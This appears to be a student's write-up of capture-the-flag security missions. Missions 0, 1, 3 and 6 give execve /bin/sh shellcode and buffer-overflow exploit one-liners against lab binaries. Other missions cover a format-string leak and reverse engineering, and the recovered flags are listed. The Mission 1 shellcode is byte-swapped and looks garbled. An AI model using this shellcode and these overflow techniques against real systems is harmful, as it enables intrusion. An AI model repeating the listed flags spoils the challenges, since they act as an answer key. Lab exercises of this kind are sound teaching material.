 # CS challenges
Shellcode: `\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh`
## Mission 0
---
Solve with buffer overflow and EIP to function.

- target EIP address: 0xffffc57c
- target buffer address: 0xffffc4b8
- offset: 0xffffc57c - 0xffffc4b8 = 196
- target function addr: 0x080485cb

exploit: ```echo "`python -c 'print "a"*196 + "\xcb\x85\x04\x08"'`" | ./mission0```

GDB:
```r <<< $(python -c "print('a'*196 + '\xcb\x85\x04\x08')")```

## Mission 1
---
Solve with buffer overflow and shellcode.

- target EIP address: 0xffffc59c
- target buffer address: 0xffffc48b
- offset: 0xffffc59c - 0xffffc48b = 273 (+ 4)

exploit: ```(python -c 'print "\x90"*206 + "\x1f\xeb\x89\x5e\x08\x76\xc0\x31\x46\x88\x89\x07\x0c\x46\x0b\xb0\xf3\x89\x4e\x8d\x8d\x08\x0c\x56\x80\xcd\xdb\x31\xd8\x89\xcd\x40\xe8\x80\xff\xdc\xff\xffb/nis/hh" + "\x90"*21 + "\xab\xc4\xff\xff"'; cat -) | ./mission1```

GDB:
```r <<< $(python -c "print('\x90'*206 + '\x1f\xeb\x89\x5e\x08\x76\xc0\x31\x46\x88\x89\x07\x0c\x46\x0b\xb0\xf3\x89\x4e\x8d\x8d\x08\x0c\x56\x80\xcd\xdb\x31\xd8\x89\xcd\x40\xe8\x80\xff\xdc\xff\xff' + 'b/nis/hh' + '\x90'*21 + '\xab\xc4\xff\xff')")```

## Mission 2
---
Solve with format string by printing out the stack (info leakage).

Do the following, inside the mission2 directory:
```
sh ./writable/exploit.sh
cat ./writable/test.txt | ./mission2 > ./writable/output.txt
nano ./writable/output.txt # check the stack for the flag
```
Flag on the stack, need to be reversed: "6c6364527a786e6d45585971684d6a5a6746757a"

Python script:
```
flag = bytearray.fromhex("6c6364527a786e6d45585971684d6a5a6746757a").decode()[::-1]
```
Flag: `zuFgZjMhqYXEmnxzRdcl`

## Mission 3
---
Exploit condition edge cases, input the following values:
```
# Overwrite admin to 1
Enter the size of your wish list > 1
Insert your choice > 2
Slot to fill > 0
Gift number > 1
---
```

- Target EIP addr: 0xffffc56c <- 0x080488d2
- admin_message EBP addr: 0xffffc568
- Buffer addr: ebp - 0x40 + 4 (offset from size) = 0xffffc52c
- offset: 0xffffc56c - 0xffffc52c = 64 (= 48 + 16)

(r <<< $(python -c "print('1\n2\n0\n1\n4\n-1\n'+''*100+'\n5')"))

GDB:
- b *0x080485e7 - break at push ebp
- b *0x08048676 - break after getc
- r <<< $(python -c "print('1\n2\n0\n1\n4\n-1\n'+'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh3333'+'\x90'*12 +'\x2c'+'\xc5\xff\xff'+'\n')")
- display/20wx 0xffffc52c (display buffer)
  
Actual buffer addr: 0xffffc54c

Flag: `PlbAQoKqSYOTyimtEusG`
## Mission 4
---
Solve by decompiling the binary code using ghidra.

Do the following, inside the mission2 directory:
```
python3 activation_key.py # outputs aTm5ZFzg-qs6bf9SW-b5qxZUMj
./mission4 
# input: aTm5ZFzg-qs6bf9SW-b5qxZUMj
```

Flag: `nYGGALvqgEIsGjRJHIci`



## Misison 6
---
Idea: use main return EIP to jump to a place in memory; use heap to overflow.

- Target EIP: 0xffffc57c (-10 offset wrt ./mission5/mission5)
- Buffer ESP: 0xffffc5a8 (EBP) - 0x24d = 0xffffc32b (-10 offset wrt ./mission5/mission5)

- 0xffffc57c (Main's target EIP) - 0xffffc32b = 593

(python -c "print(b'\x90'*548 + b'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' + b'\x2b\xc4\xff\xff')") > motd.txt
 
- b *0x08048743
- display/wx 0xffffc33b
- display/20wx 0x804b818


